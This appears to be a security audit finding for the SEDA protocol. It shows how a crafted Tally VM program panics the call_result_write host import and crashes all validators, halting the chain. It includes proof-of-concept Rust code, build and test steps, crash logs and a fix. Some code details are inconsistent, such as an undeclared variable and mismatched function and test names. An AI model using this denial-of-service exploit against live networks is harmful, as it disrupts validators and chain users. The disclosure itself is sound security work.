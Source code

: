 Cheesy Raisin Dachshund

High

# Anyone can crash validators with a Tally VM program that panics the call_result_write import

### Summary

The Tally VM comes with [imports](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-wasm-vm/runtime/core/src/runtime.rs#L50-L60) that serve as a bridge between the host and the VM. These imports are run in the host environment.
When an import panics, it crashes the host, which causes the validator node to crash. The [`call_result_write`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-wasm-vm/runtime/core/src/tally_vm_imports/mod.rs#L16) import can be used
to trigger an out-of-range index access and panic. Since the tally programs are [executed](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/keeper/endblock.go#L210) from the Tally module's `Endblock()`, every
validator will crash when the described program is executed, which leads to a chain halt.

### Root Cause

In the imported [`call_result_write`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-wasm-vm/runtime/core/src/core_vm_imports/call_result.rs#L17-L33) function, the user can pass an arbitrary `result_data_length`. As long as `result_data_length` is a value
greater than the length of `ctx.call_result_value`, the host environment will panic due to out-of-range index access.

```rust
  fn call_result_value(
      env: FunctionEnvMut<'_, VmContext>,
      result_data_ptr: WasmPtr<u8>,
      result_data_length: u32,
  ) -> Result<()> {
      let ctx = env.data();
      let memory = ctx.memory_view(&env);

      let target = result_data_ptr.slice(&memory, result_data_length)?;
      let call_value = ctx.call_result_value.read();

      for index in 0..result_data_length {
          // @audit call_value[index] will panic when index is out of range. The user can easily trigger this.
          target.index(index as u64).write(call_value[index as usize])?;
      }

      Ok(())
  }
```

The length of the default value of `ctx.call_result_value` is 0. 

### Internal Pre-conditions
None


### External Pre-conditions
None


### Attack Path
1. The Attacker (anyone) create a WASM program that exploits the vulnerability in the `call_result_write` import.
2. The Attacker then compiles the WASM program and deploys the binary via [`StoreOracleProgram()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/wasm-storage/keeper/msg_server.go#L34-L96).
3. The Attacker posts a Data Request that will execute their earlier deployed Tally Program.
4. Once the Data Request is for tallying, it will be processed in the Tally module's [`EndBlock()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/keeper/endblock.go#L22-L41).
5. When [executing](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/keeper/endblock.go#L210) the Attacker's Tally Program, it panics and crashes all the validators that run it. This causes a chain halt.


### Impact

All validators that execute the Attacker's Tally program will crash and the SEDA Chain will halt.


### PoC

The following WASM program will crash the host environment for the Tally VM.

```rust
#[link(wasm_import_module = "seda_v1")]
extern "C" {
    pub fn call_result_write(result: *const u8, result_length: u32);
}

fn main() {
    unsafe {
        call_result_write(result.as_ptr(), 1 as u32);
    }
}
```

To compile and run the above program, do the following:

1. Create the following `Cargo.toml`.

```toml
[package]
name = "attack"
version = "0.1.0"
edition = "2021"

[[bin]]
name = "attack"
path = "src/main.rs"
```

2. Run the following CLI commands.
```cli
$ rustup target add wasm32-wasi
$ cargo build --target wasm32-wasi
```

3. Copy the output WASM file into the seda-wasm-vm directory. For example:
```cli
// This assumes we are in the root of the Cargo project we just created
$ cp target/wasm32-wasi/debug/attack.wasm ../seda-wasm-vm
```

4. Add the below test to `libtallyvm/src/lib.rs`:
```rust
#[test]
  fn execute_attack() {
      let wasm_bytes = include_bytes!("../../attack.wasm");
      let mut envs: BTreeMap<String, String> = BTreeMap::new();

      envs.insert("VM_MODE".to_string(), "dr".to_string());
      envs.insert(DEFAULT_GAS_LIMIT_ENV_VAR.to_string(), "300000000000000".to_string());

      let tempdir = std::env::temp_dir();
      let result = _execute_tally_vm(
          &tempdir,
          wasm_bytes.to_vec(),
          vec![],
          envs,
      )
      .unwrap();

      println!("Result: {:?}", result);
  }
```

5. Run the test with `cargo test execute_attack`.

The test will crash with the following logs:
```logs
thread 'test::execute_sleepy' panicked at runtime/core/src/core_vm_imports/call_result.rs:42:56:
index out of bounds: the len is 0 but the index is 0
```

### Mitigation
Consider changing the method of writing to `call_result_value` to something like:

```rust
let mut call_value = ctx.call_result_value.write();
call_value.extend_from_slice(&target);
```